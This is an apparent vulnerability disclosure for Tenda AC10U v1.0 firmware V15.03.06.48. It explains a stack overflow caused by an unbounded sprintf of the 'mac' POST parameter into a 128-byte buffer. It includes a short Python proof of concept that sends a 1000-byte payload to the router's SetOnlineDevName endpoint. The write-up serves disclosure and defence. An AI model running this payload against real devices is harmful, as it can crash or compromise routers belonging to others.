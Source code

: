 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 has a stack overflow vulnerability located in the `formSetDeviceName` function. This function accepts the `mac` parameter from a POST request by `dev_id` variable and passes it to the `set_device_name` function. 

![image-20240307202242332](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307202242332.png)

Within `set_device_name`, the array `mib_name` is fixed at 128 bytes. However, since the user has control over the input of `mac`, the statement `sprintf(mib_name, "client.devicename%s", mac_addr);` leads to a buffer overflow. The user-supplied `mac` can exceed the capacity of the `mib_name` array, thus triggering this security vulnerability.

![image-20240313150525362](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313150525362.png)

![image-20240313150320528](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313150320528.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*1000

data = {"mac": payload,"devName": 1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240307202532447](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307202532447.png)